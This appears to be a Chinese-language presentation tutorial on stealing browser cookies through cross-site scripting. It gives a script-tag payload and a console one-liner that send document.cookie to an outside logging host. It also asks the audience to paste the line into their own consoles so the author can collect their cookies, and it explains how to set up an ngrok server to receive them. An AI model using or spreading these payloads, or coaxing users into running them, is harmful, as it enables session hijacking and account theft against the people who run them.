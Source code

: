
而且實做起來非常簡單 只要這段就可以了
```htmlmixed=
<script>document.location.href="https://logs.foxo.tw/"+document.cookie</script>
```

---

大家把這段打在console 
```javascript=
document.location.href="https://logs.foxo.tw/"+document.cookie
```
我就可以在這裡看到你們的cookies
~~有沒有人要試試看~~
## 帳號之後被盜不要找我!

---

原理: 
架一個網頁伺服器 記錄檔會記錄所有瀏覽過的路近
```java=
https://(網頁domain)/(路徑)
```
```javascript=
document.location.href //會轉跳
```

---


試試看吧 架設server
首先下載[Ngrok](https://ngrok.com/download)
![](https://i.imgur.com/Lz9grZL.png)


---

解壓縮 把他拖進cmd裡 並在後面補上 `http 80`
ex:`norgk.exe http 80`
![](https://i.imgur.com/CDh5rks.png)

---

你的server網址
![](https://i.imgur.com/IsalIrI.png)


---

複製起來 把`{這裡}`取代
```javascript=
document.location.href="{這裡}"+document.cookie
```
然後貼在console
![](https://i.imgur.com/G6kAgxV.png)

---